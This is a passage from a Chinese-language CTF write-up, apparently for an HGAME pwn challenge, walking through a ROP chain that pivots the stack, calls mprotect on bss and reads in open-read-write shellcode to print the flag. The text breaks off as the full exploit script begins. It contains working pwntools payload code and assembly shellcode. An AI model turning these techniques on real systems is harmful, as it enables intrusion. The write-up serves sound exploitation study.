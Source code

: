在调用 read 之前要控制 rbp 到 bss 段别的地方，因为 read 是以 rbp 为基准往栈上写入的，rbp 的位置决定了 read 向哪里写入

```python
link.recvuntil(b'luck.')
payload=p64(rdi)+p64(bss_base-0x500)+p64(rdx_r12)+p64(7)+p64(0)+p64(mp)+p64(rdi)+p64(4)+p64(0x4013CD)+p64(shellcode_addr)
payload+=p64(bss_base+0x100-0x58)+p64(leave_ret)
link.send(payload)
```

↑ 第三个 payload 先是调用 mprotect 来修改后面写入 shellcode 的内存的权限，然后再调用一遍 read 向对应位置写入 shellcode

但是，直接调用上面选的 read 函数地址而不是 vuln 函数的地址，动调发现会卡在这里

![](/images/a5758002924e4552ef8681edeaec00b3.png)

因为这个时候`[rbp-0x54]`不是一个合法地址

接着后面的 shellcode_addr 跳转到 shellcode 地址执行 orw：

```python
shellcode=asm('''
    push 0x67616c66
    mov rdi,rsp
    xor rsi,rsi
    push 2
    pop rax
    syscall
              
    mov rdi,rax
    mov rsi,rsp
    mov rdx,0x100
    xor rax,rax
    syscall
              
    mov rdi,4
    mov rsi,rsp
    mov rax,1
    syscall
''')
```

shellcode 几个重要的点：

1. 这一题的 fd 文件描述符不一样，输出是 4
2. 传字符串的参数是一个地址，指向字符串的开头，所以传"./flag"要压入栈后用 rsp 的值
3. read 和 write 可以用栈做缓冲区，直接用 rsp 的值就行

完整 exp：

```python
#!/usr/bin/env python3
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
# e=process('./ezsfix')
elf=ELF("./ezsfix")
libc=ELF("./glibc/2.31-0ubuntu9.17_amd64/libc-2.31.so")
# link=remote("0.0.0.0",9999)
link=remote("node1.hgame.vidar.club",32028)

bss_base=0x404130+0x3d0
read=0x4013D9
rdi=0x401713
rsi_r15=0x401711
rbp=0x40135d
leave_ret=0x4013cb

```